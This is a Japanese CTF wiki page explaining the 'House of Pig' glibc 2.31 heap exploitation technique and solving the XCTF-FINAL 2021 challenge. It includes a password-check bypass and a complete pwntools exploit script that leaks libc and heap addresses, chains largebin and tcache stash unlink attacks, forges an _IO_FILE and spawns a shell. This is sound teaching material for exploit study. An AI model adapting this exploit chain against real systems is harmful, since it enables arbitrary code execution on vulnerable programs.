





# House of Pig

## はじめに

House of Pig は、XCTF-FINAL 2021 の同名の問題に由来する攻撃手法です。

## 概要

House of Pig は、Tcache Stash Unlink+ Attack と FSOP を組み合わせた攻撃で、補助として Largebin Attack も使います。主に libc 2.31 以降の新しいバージョンの libc で、かつプログラム中に calloc しかない場合に適用されます。

攻撃の条件は次のとおりです。

* UAF が存在する
* abort の処理を実行できる、またはプログラムが明示的に exit を呼ぶ、またはプログラムがメイン関数から return できる。

主に利用する関数は `_IO_str_overflow` です。[glibc 2.24 における IO_FILE の利用](https://ctf-wiki.org/pwn/linux/io_file/exploit-in-libc2.24/#_io_str_jumps-overflow)を参照してください。

攻撃の流れは次のとおりです。

1. Tcache Stash Unlink+ 攻撃を行い、アドレス `__free_hook - 0x10` を tcache_pthread_struct に書き込む。この攻撃は `__free_hook - 0x8` に書き込み可能なメモリを指すポインタが格納されていることを要求するため、その前に large bin attack を 1 回行う必要がある。
2. もう 1 回 large bin attack を行い、`_IO_list_all` をヒープのアドレスに書き換え、そこに `_IO_FILE` 構造体を偽造する。
3. 偽造した構造体によって `_IO_str_overflow` を発動させ、getshell する。

2.31 における largbin attack は古いバージョンとは少し異なる点に注意してください。[Large Bin Attack](https://ctf-wiki.org/pwn/linux/glibc-heap/large_bin_attack/) の章を参照できます。

## 例題

### XCTF-FINAL-2021 house of pig

#### ジャンプテーブルの修復

問題を入手して直接 F5 を押すと、`__asm{ jmp rax }` のような命令が出ることがあります。



これは switch のジャンプテーブル構造が IDA に認識されていないために起こり、大量のコードが失われています。IDA の Edit->Other にある Specify switch idiom 機能で修復できます。このプログラムで使うべきパラメータは次のとおりです。



これで switch が認識されます。

#### 処理の流れの分析

まず、思い切った推測により、各ブタの構造体の構造を分析できます。

```cpp
struct PIG
{
  char *des_ptr[24];
  int des_size[24];
  char des_exist_sign[24];
  char freed_sign[24];
};
```

また、qword_9070 が指す構造体の構造は次のとおりです。

```cpp
struct ALL_PIGS
{
  char *peppa_des_ptr[24];
  int peppa_des_size[24];
  char peppa_des_exist_sign[24];
  char peppa_freed_sign[24];
  int peppa_last_size;
  int align1;
  char *mummy_des_ptr[24];
  int mummy_des_size[24];
  char mummy_des_exist_sign[24];
  char mummy_freed_sign[24];
  int mummy_last_size;
  int align2;
  char *daddy_des_ptr[24];
  int daddy_des_size[24];
  char daddy_des_exist_sign[24];
  char daddy_freed_sign[24];
  int daddy_last_size;
  int view_times_left;
  int edit_times_left;
};
```

この 2 つの構造体を補完すると、プログラムの流れはずっと分析しやすくなります。主な脆弱性は、ブタを切り替えるときの、構造体のバックアップと更新の際に des_exist_sign[24] 配列が更新されないことだとわかります。





この更新漏れの脆弱性を発動させるにはロール(役割)を変更する必要があり、そのためには check_password の処理を通過する必要があります。



つまり、3 つの md5 値のいずれかの元の値を入力する必要があります。最後の md5 は '\x00' で切り詰められているため、先頭の 2 バイトが同じであれば十分で、ブルートフォースなどの方法でここの検査を通過できます。次はその一例です。

```python
def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")
```

まとめると、プログラムの主な脆弱性は UAF があることで、show と edit ができ、それぞれ 2 回と 8 回の機会があります。最大で 0x440 サイズの領域を確保でき、chunk を unsorted bin や large bin に入れることができます。プログラム全体に malloc 関数は存在せず、すべて calloc です。この関数は tcache から chunk を取り出さないという性質を持ち、さらに fastbin の範囲の chunk を確保できないため、攻撃はやや困難になっています。

#### House of Pig による攻撃
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["tmux","splitw","-h"]

def add_message(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("size: ",str(size))
    sh.sendafter("message: ",payload)

def view_message(idx):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("index: ",str(idx))

def edit_message(idx,payload):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("index: ",str(idx))
    sh.sendafter("message: ",payload)

def delete_message(idx):
    sh.sendlineafter("Choice: ",'4')
    sh.sendlineafter("index: ",str(idx))

def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")

sh = process("./pig")
libc = ELF("./libc-2.31.so")

change_rol(2)
for i in range(5):
    add_message(0x90,'tcache size\n' * (0x90 // 48))
    delete_message(i)
change_rol(1)
for i in range(7):
    add_message(0x150,'tcache size\n' * (0x150 // 48))
    delete_message(i)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 7*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 8
delete_message(7)
change_rol(2)
add_message(0xB0,'split7\n' * (0xB0 // 48)) # 5
change_rol(1)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 9*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 10
delete_message(9)
change_rol(2)
add_message(0xB0,'split9\n' * (0xB0 // 48)) # 6
# prepare done
change_rol(1)
add_message(0x410,'leak_libc\n' * (0x410 // 48)) # 11
add_message(0x410,'largebin\n' * (0x410 // 48)) # 12
add_message(0x410,'\n' * (0x410 // 48)) # 13
delete_message(12)

change_rol(2)
change_rol(1)
view_message(12)
sh.recvuntil("is: ")
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 96
view_message(5)
sh.recvuntil("is: ")
heap_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x12750
log.success("libc_base: " + hex(libc_base))
log.success("heap_base: " + hex(heap_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
_IO_list_all_addr = libc_base + libc.sym["_IO_list_all"]
#_IO_str_jump_addr = libc_base + libc.sym["_IO_str_jump"]
_IO_str_jump_addr = libc_base + 0x1ED560
system_addr = libc_base + libc.sym["system"]
############################### leak done ###############################
add_message(0x410,'get back\n' * (0x410 // 48)) # 14
change_rol(2)
add_message(0x420,'largebin\n' * (0x420 // 48)) # 7
add_message(0x430,'largebin\n' * (0x430 // 48)) # 8
delete_message(7)
add_message(0x430,'push\n' * (0x430 // 48)) # 9
change_rol(1)
change_rol(2)
edit_message(7,(p64(0) + p64(__free_hook_addr - 0x28)) * (0x420//48))

change_rol(1)
delete_message(14)
add_message(0x430,'push\n' * (0x430 // 48)) # 15
# largebin attack done

change_rol(3)
add_message(0x410,'get_back\n' * (0x430 // 48)) # 0

change_rol(1)
edit_message(9,(p64(heap_base + 0x12C20) + \
                p64(__free_hook_addr - 0x20)) * (0x150 // 48))
change_rol(3) 
add_message(0x90,'do stash\n' * (0x90 // 48)) # 1
# stash unlink done
change_rol(2)
edit_message(7,(p64(0) + p64(_IO_list_all_addr - 0x20)) * (0x420//48))
change_rol(3)
delete_message(0)
add_message(0x430,'push\n' * (0x430 // 48)) # 2
# second largebin atk
change_rol(3)
add_message(0x330,'pass\n' * (0x430 // 48)) # 3
add_message(0x430,'pass\n' * (0x430 // 48)) # 4

fake_IO_FILE = ''
fake_IO_FILE += 2 * p64(0)
fake_IO_FILE += p64(1) # _IO_write_base
fake_IO_FILE += p64(0xFFFFFFFFFFFFFFFF) # _IO_write_ptr
fake_IO_FILE += p64(0) # _IO_write_end
fake_IO_FILE += p64(heap_base + 0x13E20) # old_buf, _IO_buf_base
fake_IO_FILE += p64(heap_base + 0x13E20 + 0x18) # calc the memcpy length, _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0xC0 - 0x10,'\x00')
fake_IO_FILE += p32(0) # mode <= 0
fake_IO_FILE += p32(0) + p64(0) * 2 # bypass _unused2
fake_IO_FILE += p64(_IO_str_jump_addr)
payload = fake_IO_FILE + '/bin/sh\x00' + 2 * p64(system_addr)
sh.sendlineafter("01dwang's Gift:\n",payload)
#add_message(0x410,'large_bin\n' * (0x410 // 48)) # 1
sh.sendlineafter("Choice: ",'5')
sh.sendlineafter("user:\n",'')

sh.interactive()
```

## 参考
> [house of pig一个新的堆利用详解](https://www.anquanke.com/post/id/242640#h2-3)
